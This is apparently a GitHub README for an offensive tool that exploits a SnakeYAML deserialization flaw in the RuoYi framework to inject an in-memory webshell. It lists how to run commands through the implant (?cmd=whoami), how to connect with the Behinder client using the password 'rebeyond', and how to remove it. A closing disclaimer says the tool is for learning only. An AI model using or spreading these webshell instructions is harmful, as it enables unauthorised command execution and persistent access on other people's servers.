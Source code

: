 # yaml-payload-for-ruoyi
若依 snakeyaml 反序列化漏洞注入内存马
1. 直接执行命令：?cmd=whoami
2. 连接冰蝎：/login?cmd=1（cmd不为空即可），密码为rebeyond，使用冰蝎正常连接即可
3. 卸载内存马：?cmd=delete

![image](https://user-images.githubusercontent.com/55266300/140618949-9973ce81-9308-4bc3-9dd7-286c7281ce33.png)

**项目仅供学习使用，任何未授权检测造成的直接或者间接的后果及损失，均由使用者本人负责**
